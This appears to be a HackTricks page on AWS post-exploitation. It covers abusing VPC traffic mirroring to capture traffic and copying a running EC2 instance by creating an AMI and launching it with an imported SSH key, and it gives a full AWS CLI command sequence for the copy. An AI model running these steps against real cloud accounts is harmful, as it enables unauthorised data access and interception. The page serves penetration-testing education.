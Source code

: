 # AWS - EC2, EBS, SSM & VPC Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## EC2 & VPC

For more information check:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### **Malicious VPC Mirror -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

VPC traffic mirroring **duplicates inbound and outbound traffic for EC2 instances within a VPC** without the need to install anything on the instances themselves. This duplicated traffic would commonly be sent to something like a network intrusion detection system (IDS) for analysis and monitoring.\
An attacker could abuse this to capture all the traffic and obtain sensitive information from it:

For more information check this page:

{{#ref}}
aws-malicious-vpc-mirror.md
{{#endref}}

### Copy Running Instance

Instances usually contain some kind of sensitive information. There are different ways to get inside (check [EC2 privilege escalation tricks](../../aws-privilege-escalation/aws-ec2-privesc.md)). However, another way to check what it contains is to **create an AMI and run a new instance (even in your own account) from it**:

```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```